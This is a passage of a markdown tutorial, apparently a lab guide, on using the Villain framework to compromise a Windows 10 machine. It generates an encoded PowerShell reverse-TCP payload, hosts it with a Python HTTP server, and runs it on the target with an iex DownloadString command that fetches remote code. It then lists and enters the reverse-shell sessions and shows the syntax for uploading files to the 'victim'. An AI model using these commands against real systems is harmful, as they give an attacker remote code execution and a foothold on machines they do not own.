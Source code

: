 **Example:**

```bash
villain> generate payload=windows/reverse_tcp/powershell lhost=192.168.56.10 encode
```

This generates `payload.ps1`.

---

### 3.2 Host & Run the Payload

#### Serve with Python HTTP Server (on Kali):

```bash
cp Core/payloads/windows/reverse_tcp/powershell.ps1 ~/payload.ps1
cd ~
python3 -m http.server 8000
```

#### Execute on Windows 10 (PowerShell as Admin):

```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.56.10:8000/payload.ps1')
```

---

## 4️⃣ Catch & Use the Reverse Shell

### List Sessions:

```bash
villain> sessions
```

### Enter a Shell:

```bash
villain> shell <SESSION_ID>
```

You’ll get a prompt like:

```powershell
PS C:\>
```

To return, use `exit` or `Ctrl+C`.

---

## 5️⃣ Uploading Files to the Victim

**Syntax:**

```bash
villain> upload <local_file_path> <remote_file_path>
```
